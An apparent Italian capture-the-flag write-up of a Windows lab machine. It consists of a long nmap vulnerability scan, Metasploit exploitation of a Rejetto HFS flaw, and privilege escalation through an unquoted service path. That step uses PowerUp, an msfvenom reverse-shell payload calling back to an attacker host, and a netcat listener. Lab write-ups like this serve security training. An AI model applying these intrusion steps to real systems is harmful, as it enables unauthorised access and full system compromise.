


# Introduzione

## Sistema operativo

Windows


## Prerequisiti / tools

Metasploit

# Enumeration

```bash
root@ip-10-10-211-230:~\# nmap -sC -sV --script vuln 10.10.166.50Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-18 20:34 GMT  
Nmap scan report for ip-10-10-166-50.eu-west-1.compute.internal (10.10.166.50)  
Host is up (0.00062s latency).  
Not shown: 988 closed ports  
PORT      STATE SERVICE      VERSION  
80/tcp    open  http         Microsoft IIS httpd 8.5  
|\_http-csrf: Couldn't find any CSRF vulnerabilities.  
|\_http-dombased-xss: Couldn't find any DOM based XSS.  
|\_http-server-header: Microsoft-IIS/8.5  
|\_http-stored-xss: Couldn't find any stored XSS vulnerabilities.  
135/tcp   open  msrpc        Microsoft Windows RPC  
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn  
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds  
3389/tcp  open  ssl          Microsoft SChannel TLS  
| fingerprint-strings:  
|   TLSSessionReq:  
|     }vxr4O  
|     FJ,9  
|     steelmountain0  
|     220117202844Z  
|     220719202844Z0  
|     steelmountain0  
|     !{fb;Fy  
|     R=pd,  
|     d=?2fZ  
|     5>Hh  
|     $0"0  
|     sQEEK  
|     p27t  
|     7Wvb  
|     O\*$P.3\*  
|     9}."  
|\_    X|G#g  
| ssl-dh-params:  
|   VULNERABLE:  
|   Diffie-Hellman Key Exchange Insufficient Group Strength  
|     State: VULNERABLE  
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups  
|       of insufficient strength, especially those using one of a few commonly  
|       shared groups, may be susceptible to passive eavesdropping attacks.  
|     Check results:  
|       WEAK DH GROUP 1  
|             Cipher Suite: TLS\_DHE\_RSA\_WITH\_AES\_256\_GCM\_SHA384  
|             Modulus Type: Safe prime  
|             Modulus Source: RFC2409/Oakley Group 2  
|             Modulus Length: 1024  
|             Generator Length: 1024  
|             Public Key Length: 1024  
|     References:  
|\_      https://weakdh.org  
|\_sslv2-drown:  
8080/tcp  open  http         HttpFileServer httpd 2.3  
|\_http-csrf: Couldn't find any CSRF vulnerabilities.  
|\_http-dombased-xss: Couldn't find any DOM based XSS.  
| http-fileupload-exploiter:  
|    
|     Couldn't find a file-type field.  
|    
|\_    Couldn't find a file-type field.  
| http-method-tamper:  
|   VULNERABLE:  
|   Authentication bypass by HTTP verb tampering  
|     State: VULNERABLE (Exploitable)  
|       This web server contains password protected resources vulnerable to authentication bypass  
|       vulnerabilities via HTTP verb tampering. This is often found in web servers that only limit access to the  
|        common HTTP methods and in misconfigured .htaccess files.  
|                
|     Extra information:  
|        
|   URIs suspected to be vulnerable to HTTP verb tampering:  
|     /~login \[GENERIC\]  
|    
|     References:  
|       http://capec.mitre.org/data/definitions/274.html  
|       https://www.owasp.org/index.php/Testing\_for\_HTTP\_Methods\_and\_XST\_%28OWASP-CM-008%29  
|       http://www.imperva.com/resources/glossary/http\_verb\_tampering.html  
|\_      http://www.mkit.com.ar/labs/htexploit/  
|\_http-server-header: HFS 2.3  
|\_http-stored-xss: Couldn't find any stored XSS vulnerabilities.  
| http-vuln-cve2011-3192:  
|   VULNERABLE:  
|   Apache byterange filter DoS  
|     State: VULNERABLE  
|     IDs:  CVE:CVE-2011-3192  OSVDB:74721  
|       The Apache web server is vulnerable to a denial of service attack when numerous  
|       overlapping byte ranges are requested.  
|     Disclosure date: 2011-08-19  
|     References:  
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192  
|       http://seclists.org/fulldisclosure/2011/Aug/175  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192  
|       http://nessus.org/plugins/index.php?view=single&id=55976  
|\_      http://osvdb.org/74721  
49152/tcp open  msrpc        Microsoft Windows RPC  
49153/tcp open  msrpc        Microsoft Windows RPC  
49154/tcp open  msrpc        Microsoft Windows RPC  
49155/tcp open  msrpc        Microsoft Windows RPC  
49156/tcp open  msrpc        Microsoft Windows RPC  
49163/tcp open  msrpc        Microsoft Windows RPC  
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
SF-Port3389-TCP:V=7.60%I=7%D=1/18%Time=61E72491%P=x86\_64-pc-linux-gnu%r(TL  
SF:SSessionReq,346,"\\x16\\x03\\x03\\x03A\\x02\\0\\0M\\x03\\x03a\\xe7\\$\\x8c\\x18\\x0c\\  
SF:xe6\\x0e\\x06\\x9d\\xff\\x84\\xe8\\xf9My~\\x1b\\x06J\\x0c}vxr4O\\xe9V\\x8e\\xfe\\xe2\\  
SF:x20\\x07\\x10\\0\\0\\xda\\xc7\\x0f\\xc4\\xc36\\xeb#\\xf5,h\\xa3\\xa9\\x13\\xc47\\xfc\\x1  
SF:dR\\n\\xbd\\xebe\\x1a2\\x1d\\x81#\\0/\\0\\0\\x05\\xff\\x01\\0\\x01\\0\\x0b\\0\\x02\\xe8\\0\\  
SF:x02\\xe5\\0\\x02\\xe20\\x82\\x02\\xde0\\x82\\x01\\xc6\\xa0\\x03\\x02\\x01\\x02\\x02\\x10  
SF:\\x12\\xe2FJ,9\\xf4\\xbaFZ\\xbf\\x94\\x95\\"\\xd4\\xe70\\r\\x06\\t\\\*\\x86H\\x86\\xf7\\r\\  
SF:x01\\x01\\x05\\x05\\x000\\x181\\x160\\x14\\x06\\x03U\\x04\\x03\\x13\\rsteelmountain0  
SF:\\x1e\\x17\\r220117202844Z\\x17\\r220719202844Z0\\x181\\x160\\x14\\x06\\x03U\\x04\\  
SF:x03\\x13\\rsteelmountain0\\x82\\x01\\"0\\r\\x06\\t\\\*\\x86H\\x86\\xf7\\r\\x01\\x01\\x01  
SF:\\x05\\0\\x03\\x82\\x01\\x0f\\x000\\x82\\x01\\n\\x02\\x82\\x01\\x01\\0\\xb3!{fb;Fy\\xca{  
SF:u\\xb6\\xa7\\xc2\\(\\xbcq\\xde\\xe0\\x15\\xd3\\xd4#\\x8e24\\xddR=pd,\\x8d\\xb6z\\x0b\\x  
SF:c6\\xea\\xea\\xe9\\\[\\xef\\x8f{\\x97\\x91\\xf4\\xbd\\xa4x\\xe8\\x1e\\"P\\x93\\\[\\xc5\\x1d  
SF:c\\xb4,\\xa9\\x96\\x93s\\xbf\\xd8\\x82G@\\x7fg\\xde\\x9b\\xb4\\^\\xc2\\x20\\xc2\\xba\\xd  
SF:b\\.b\\x92\\xf3;\\x924\\x943\\x06\\xc8g\\xc2\\\*\\x0b\\x9b\\xec\\\]\\x7f\\xd4{\\x8a\\xcb\\x  
SF:20\\xbe'6\\x9f\\x20<m\\xf5\\x9e\\x85\\x0c\\xe6\\xe5\\xad4\\)\\xf3k0\\r\`\\"\\xae\\xb9-\\x  
SF:82\\x8e\\xa2\\xa6\\xf2\\x02mW\\xc6t\\xbb\\xe2\\xa7\\xd9~ti\\xfe\\x8c0\\xbaB\\x90\\xcb4  
SF:%\\x17\\xa0M\\xba\\xa7e\\xa5\\x90\\x030\\xfa\\xfe\\x03\\0\\xd5\\xd41C\\.\\xa5\\tL\\xd1\\x  
SF:eb\\x03d=\\?2fZ\\xd9\\xf9\\n\\x81\\x7f\\x91\\x9d\\xe9\\xb2e!\\x82\\xdb/\\xd5\\xd4\\x11Z  
SF:\\xb8&z\\xfc5>Hh\\x8f\\xb1\\xb7\\xe2\\xac\\x7fd\\xfc\\xb5b2\\x97}\\xd1D&\\0\\x20\\x89\\  
SF:x9b\\x13=#\\xf7\\0\\xa9\\x8d\\x04iHW\\xa4m\\x8a\\x01\\x83m\\xb7T\\xc0};I\\x02\\x03\\x0  
SF:1\\0\\x01\\xa3\\$0\\"0\\x13\\x06\\x03U\\x1d%\\x04\\x0c0\\n\\x06\\x08\\+\\x06\\x01\\x05\\x0  
SF:5\\x07\\x03\\x010\\x0b\\x06\\x03U\\x1d\\x0f\\x04\\x04\\x03\\x02\\x0400\\r\\x06\\t\\\*\\x86  
SF:H\\x86\\xf7\\r\\x01\\x01\\x05\\x05\\0\\x03\\x82\\x01\\x01\\0sQEEK\\x8dL\\xfdNUD\\xca\\\[\\  
SF:xd45\\xfb\\x82\\xb8\\xdc\\xa9\\xdb\\xaa\\xde\\xca\\xb4\\x85\\x8cS\\x96\\x1a~\\x9f\\xae\\  
SF:x18\\x8a%\\xe4\\x85\\xe9\\xa5\\xa5\\xa9\\xa9\\x92\\x13Cm\\xdf\\$ZP\\x04\\xf1\\r\\x83\\xb  
SF:bo\\xe3\\xb9\\xc9=\\xd87W\\xef\\x02\\x9f\\xaf\\x1c\\xe8j\\xee%!f\\xee:\\xf8\\xea\\x0b\\  
SF:xd3\\xb6\\x0e\\xb6\\xd5\\xf0l\\xa9V\\x19\\xc9\\xb2\\x9d\\xbdp27t\\xf6\\xf2\\xa1\\x81x\\  
SF:x83\\x11\\x0e\\xed\\xa1\\x92\\xc57Wvb\\x93\\xe7\\x0b\\x91O\\\*\\$P\\.3\\\*\\x14\\r\\x1a\\x1  
SF:3\\xa6l\\xb5\\x86\\x07\\xc0\\xbf\\xe1\`\\\[f\\xe9\\xb0\\x97'i\\xb3t\\t\\x1e=/\\x89\\x81\\x  
SF:d2\\x99~r\\x1a\\"\\xb7q\\xf5\\xe2\\^\\x07AaI\\xabI\\x84\\x1d\\x06\\xffY~\\x1e\\x07\\x87  
SF:\\x06S\\r\\xc3\\x05\\xfe\\xbc9}\\.\\"\\r\\xa5\\x07D\\xbf-@\\xf1X\\|G#g\\xdf\\xbf-R\\xcb\\  
SF:x9fY\\xd98\\xe3,\\xb3C\\xd2W\\x89\\xeb\\x14h\\x9a\\xc0\\xfb;\\x1cs\\xa4i\\xef\\xfe{W\\  
SF:x94\\xfa\\x89\\xa3\\x98\\x88<\\xb8\\xd24\\xe5v\\t\\\]\\.\\x7fS\\xf2\\xe3\\xc4\\x0e\\xeb\\x  
SF:0e\\0\\0\\0");  
MAC Address: 02:3C:85:AB:9E:B5 (Unknown)  
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
|\_samba-vuln-cve-2012-1182: No accounts left to try  
|\_smb-vuln-ms10-054: false|\_smb-vuln-ms10-061: No accounts left to try  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 262.08 seconds
```

# Exploitation

1.  Con metasploit sfruttiamo la vulnerabilità 2014-6287 del server rejetto http file server

Privilege escalation

1.  Scaricare PowerUp.ps1 con:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
2.  Caricarlo nella macchina tramite metasploit con:  
    `upload /root/PowerUp.ps1`
3.  Caricare il modulo powershell e avviare la shell:  
    `load powershell`

`powershell\_shell`

4.  Eseguire PowerUp  
    . `.\\PowerUp.ps1`

Invoke-AllChecks

5.  Dai risultati emerge che c’è una vulnerabilità di tipo unquoted service path  
    
6.  Spiegazione:  
    The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
7.  Con msfvenom generiamo una reverse shell da caricare  
    `msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=10.10.113.132 LPORT=5555 -f exe -o Advanced.exe`
8.  Caricare l’eseguibile nella cartella del programma ad un livello superiore:
9.  Mettersi in ascolto con netcat
10.  Riavviare il servizio  
    `sc stop AdvancedSystemCareService9  `
    `sc start AdvancedSystemCareService9`
11.  su windows l’equivalente di cat è `type root.txt && type CON`
